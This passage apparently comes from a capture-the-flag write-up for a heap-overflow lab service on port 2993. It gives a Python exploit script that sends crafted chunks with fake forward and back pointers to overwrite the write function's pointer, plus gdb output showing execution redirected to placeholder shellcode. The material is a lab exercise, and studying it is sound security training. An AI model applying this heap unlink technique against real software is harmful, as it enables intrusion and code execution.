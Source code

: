 so all we have to do is subtract 12 from write's pointer

```python
import socket
import struct

s = socket.socket(socket.AF_INET)
s.connect(('127.1', 2993))

# first chunk
ck1 = "FSRD/0000ROOT/1111"
ck1 += "/" * (128 - (len(ck1)))
s.send(ck1)

# second chunk
ck2 = "FSRDROOT/"
ck2 += struct.pack('I', 0xfffffffc)
ck2 += struct.pack('I', 0xfffffffc)
#FD and BK
ck2 += struct.pack('I', 0x0804d41c - 12)
ck2 += struct.pack('I', 0x0804e098)
#shellcode
ck2 += '\xcc' * 20

ck2 += "A" * (128 - (len(ck2)))
s.send(ck2)
```
FD is write's pointer
BK is a pointer to our shellcode
and as shellcode '\xcc' will do fine for testing since it will rise a SIGTRAP signal and till us if our redirection was successful

run gdb and execute and run the script

```
Program received signal SIGTRAP, Trace/breakpoint trap.
0x0804e099 in ?? ()
(gdb)
```
we recive SIGTRAP at 0x0804e099.

if we examine the heap

![image3](https://github.com/YazoSh/ctf-writeups/raw/master/images/final2-3.png)
